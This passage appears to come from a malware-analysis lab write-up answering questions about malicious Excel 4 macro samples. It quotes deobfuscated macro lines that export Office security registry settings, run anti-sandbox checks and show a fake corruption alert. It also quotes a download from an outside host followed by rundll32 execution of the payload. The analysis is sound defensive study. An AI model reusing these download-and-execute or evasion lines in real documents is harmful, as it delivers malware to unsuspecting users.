 ```
CELL:J727      , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","C:\Windows\system32\reg.exe","EXPORT HKCU\Software\Microsoft\Office\GET.WORKSPACE(2)\Excel\Security c:\users\public\1.reg /y",0,5)
CELL:J728      , PartialEvaluation   , =WAIT("45130.30471064814600:00:03")
CELL:J729      , FullEvaluation      , FOPEN("c:\users\public\1.reg",1)
CELL:J730      , PartialEvaluation   , =FPOS(FOPEN("c:\users\public\1.reg",1),215)
CELL:J732      , PartialEvaluation   , =FCLOSE(FOPEN("c:\users\public\1.reg",1))
CELL:J733      , PartialEvaluation   , =FILE.DELETE("c:\users\public\1.reg")
--snip--;
```

* We can see the key specified as `1`.

##

> Q8. Sample2: This document performs several additional anti-analysis checks. What Excel 4 macro function does it use?

* In the `xmldeobfuscator` output, we can see the check being performed using the `GET.WORKSPACE` function.

```
--snip--;
CELL:K2        , FullEvaluation      , IF(GET.WORKSPACE(13)<770,CLOSE(FALSE),)
CELL:K4        , FullEvaluation      , IF(GET.WORKSPACE(14)<381,CLOSE(FALSE),)
--snip--;
```

##

> Q9. Sample2: This document checks for the name of the environment in which Excel is running. What value is it using to compare?

* In the output we can see the OS mentioned in the `GET.WORKSPACE` command.

```
--snip--;
CELL:J6        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
CELL:J8        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1ALERT(""The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt."",2)",K9)
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
CELL:J11       , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1CLOSE(FALSE)",K12)
--snip--;
```

##

> Q10. Sample2: What type of payload is downloaded?

* The process is opening a `rundll32.exe` file.

```
--snip--;
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
--snip--;
```
